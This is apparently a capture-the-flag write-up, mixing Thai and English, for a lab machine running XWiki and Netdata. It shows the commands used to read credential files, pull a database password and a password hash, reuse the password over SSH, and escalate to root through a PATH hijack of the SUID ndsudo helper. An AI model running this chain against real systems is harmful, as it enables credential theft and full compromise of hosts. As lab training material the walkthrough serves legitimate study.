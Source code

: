 ![alt text](image.png)


https://www.exploit-db.com/exploits/52136

![alt text](image-1.png)

ปรับย่อหน้า,path เพิ่ม busybox

![alt text](image-2.png)

https://www.xwiki.org/xwiki/bin/view/Documentation/AdminGuide/Installation/InstallationWAR/InstallationMySQL/

```
find / -name hibernate.cfg.xml 2>/dev/null
    /etc/xwiki/hibernate.cfg.xml
    /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml
    /usr/share/xwiki/templates/mysql/hibernate.cfg.xml


cat /etc/xwiki/hibernate.cfg.xml | grep password
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>

```

![alt text](image-3.png)

```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mysql:x:115:121:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:998:998:Apache Tomcat:/var/lib/tomcat:/usr/sbin/nologin
xwiki:x:997:997:XWiki:/var/lib/xwiki:/usr/sbin/nologin
netdata:x:996:999:netdata:/opt/netdata:/usr/sbin/nologin
oliver:x:1000:1000:,,,:/home/oliver:/bin/bash
_laurel:x:995:995::/var/log/laurel:/bin/false

```
คิดว่า user flag น่าจะเป็น oliver แต่ credential ที่ได้มา xwiki:theEd1t0rTeam99 เป็นของ mysql database

เลยไปค้นใน Database อยู่สักพักใหญ่

![alt text](image-4.png)

![alt text](image-7.png)

https://www.xwiki.org/xwiki/bin/view/Documentation/DevGuide/DatabaseSchema/

ขอบคุณสำหรับ database schema diagram ของ XWiki! นี่แสดงให้เห็นโครงสร้างจริงของการจัดเก็บข้อมูลใน XWiki อย่างชัดเจน

**จากภาพ ERD นี้เห็นได้ว่า:**

**โครงสร้างหลักสำหรับ Users:**
- **xwikidoc** - หน้าหลักของ user (เช่น `XWiki.admin`)
- **xwikiobjects** - XObject instances ของ `XWiki.XWikiUsers` class
- **xwikistrings** - เก็บ string properties รวมถึง **password hash**

**การเก็บ Password:**
Password จะถูกเก็บใน table **xwikistrings** โดย:
```
xwikidoc (user page) 
  → xwikiobjects (XWikiUsers object)
    → xwikiproperties (password property)  
      → xwikistrings (actual password hash)
```

**Tables ที่เกี่ยวข้องกับ User:**
- `xwikidoc`: ข้อมูลพื้นฐานของหน้า user
- `xwikiobjects`: XObject ของ XWikiUsers class
- `xwikistrings`: password hash และ string properties อื่นๆ
- `xwikiproperties`: metadata ของแต่ละ property



![alt text](image-6.png)

select * from xwikistrings;

hash:SHA-512:dac65976a9f09bcd15bd2c5c6eae4c43b06f316be7ae6b191db26580b1211bef:6b8f547e3742e998380da4f9d426773430a7982a946b9bfd94da0d7abe0d472c5ff08fcb8b0a908bc293da82298053ba348872099bd88f059a7838c38b670153 

เจอเพียง hash ของ neal ซึ่งเป็น SHA-512 จึงลอง Password spray ssh oliver:theEd1t0rTeam99 ก่อน

![alt text](image-5.png)



```
oliver@editor:~$ find / -perm -u=s 2>/dev/null
/opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network
/opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/local-listeners
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
/opt/netdata/usr/libexec/netdata/plugins.d/ioping
/opt/netdata/usr/libexec/netdata/plugins.d/nfacct.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1

oliver@editor:~$ ls -la /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
-rwsr-x--- 1 root netdata 200576 Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo

oliver@editor:~$ id
uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)

```
![alt text](image-10.png)

![alt text](image-9.png)

which nvme ก็ไม่เจอ

https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93

PoC

As a user that has permission to run ndsudo:

### Place an executable with a name that is on ndsudo’s list of commands (e.g. nvme) in a writable path

![alt text](image-8.png)

test bin file และใน target machine ไม่มี gcc เลย compile เองแล้วเปิด server ให้ wget

## Set the PATH environment variable so that it contains this path , Run ndsudo with a command that will run the aforementioned executable

```
oliver@editor:~/fakebin$ export PATH="/home/oliver/fakebin:$PATH" && /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```
![alt text](image-11.png)



## SUID (Set User ID on Execution)

เมื่อไฟล์ **binary executable** (โปรแกรมที่คอมไพล์แล้ว) มี **SUID bit** ติดอยู่ เวลาที่ **user A** (ที่ไม่ใช่เจ้าของไฟล์) รันไฟล์นี้ มันจะถูก **execute ด้วย effective UID ของเจ้าของไฟล์** (เช่น root) แทนที่จะเป็น UID ของ user A เอง

**SUID ทำงานกับ executables ที่เป็น binary เท่านั้น**
เช่น โปรแกรมที่เขียนด้วย C, C++, Go ฯลฯ ที่ compile เป็น binary แล้ว **ไม่ต้องพึ่ง interpreter** (เช่น Python, Bash script จะไม่สามารถใช้ SUID ได้ง่ายๆ เพราะ interpreter จะ drop สิทธิ์กลับไปเป็น user ปกติ)

---

## system("/usr/bin/id") ทำงานยังไง?

```c
system("/usr/bin/id");
```

* ฟังก์ชัน `system()` จะ **เรียก shell ขึ้นมา (ปกติคือ /bin/sh)** แล้วให้ shell นั้นไปรันคำสั่ง `/usr/bin/id`
* ดังนั้น **สิทธิ์จะขึ้นอยู่กับ shell ด้วย**

  * ถ้า shell ถูก configure ให้ไม่ propagate SUID หรือ security settings (เช่น secure\_path) มันอาจ **drop สิทธิ์ SUID กลับเป็น user ธรรมดา**

---

## รัน `/usr/bin/id` ตรงๆ ดีกว่า

แทนที่จะเรียกผ่าน shell (system()), แนะนำให้ใช้ `exec` family (เช่น `execve`, `execl`, `execvp` ฯลฯ) ไปเรียก `/usr/bin/id` ตรงๆ เลย:

```c
execl("/usr/bin/id", "id", NULL);
```

* การเรียก exec ตรงๆ จะ **ไม่เกี่ยวข้องกับ shell**
* จะไม่โดน shell limitations (เช่น secure\_path หรือ shell dropping SUID)

---

## หรือ ใช้ `getuid()` กับ `geteuid()`

ถ้าแค่อยากเช็คว่าโปรแกรมทำงานด้วยสิทธิ์อะไรอยู่:

```c
printf("UID: %d\n", getuid());
printf("EUID: %d\n", geteuid());
```

* `getuid()` จะคืนค่า **real UID** (คนที่รันโปรแกรม)
* `geteuid()` จะคืนค่า **effective UID** (เช่น root ถ้า SUID ติดไว้)
* แบบนี้ไม่ต้องไปเรียก external command อะไรเลย เพราะ check ได้ตรงๆ จากภายในโปรแกรม C เอง

---




https://www.reddit.com/r/linuxquestions/comments/132v6hy/cant_get_root_access_using_a_suid_binary/


![alt text](image-12.png)







